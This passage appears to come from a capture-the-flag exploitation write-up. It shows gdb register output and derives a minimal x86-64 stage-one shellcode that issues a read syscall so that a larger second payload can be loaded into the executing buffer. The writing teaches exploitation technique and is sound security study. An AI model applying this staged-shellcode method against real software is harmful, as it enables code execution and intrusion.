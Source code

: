 I ran the binary in gdb just to see the state of the registers when our shellcode is being called. This is helpful as it allows us to utilize some of the existing register values:

```
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x0
$rdx   : 0x0
$rsp   : 0x00007fffffffdc98  →  0xabadc0defee1dead
$rbp   : 0x0
$rsi   : 0x0
$rdi   : 0x00007ffff7ff4000  →  0xf4f4f4f4f4f40a61
$rip   : 0x00007ffff7ff4000  →  0xf4f4f4f4f4f40a61
$r8    : 0x0
$r9    : 0x0
$r10   : 0x0
$r11   : 0x0
$r12   : 0x0
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
```

As you can see, there's not a lot to work with, but we do have the address of the current buffer loaded in rdi.

In order to make the read syscall, we need four things:

* rdi == 0 (stdin)
* rsi == the address of the current buffer
* rdx == a reasonably large number (count)
* make the syscall

We know that the syscall itself takes up 2 bytes and copying the address of the current buffer from rdi to rsi takes at least 2 bytes. This leaves us 3 bytes to zero out rdi and make rdx a large number:

```
; copy the address of the current buffer from rdi to rsi (2 bytes)
push rdi
pop rsi

; 3 bytes left

; syscall (2 bytes)
syscall
```

My first idea was to move the address of the current buffer to rdx as it is quite a large number; however, it turns out to be too large and would not work.

Looking for inspiration, I came across [Single Byte or Small x86 Opcodes](http://xxeo.com/single-byte-or-small-x86-opcodes). Although it is written for 32 bit instead of 64 bit, it is still quite useful and helped me came up with my final payload:

```
; copy the address of the current buffer from rdi to rsi (2 bytes)
push rdi
pop rsi

; zero out rdi and store the lower 4 bytes in eax (1 bytes)
xchg edi,eax

; load the lower 4 bytes to edx (1 byte)
xchg edx, eax

; syscall (2 bytes)
syscall
```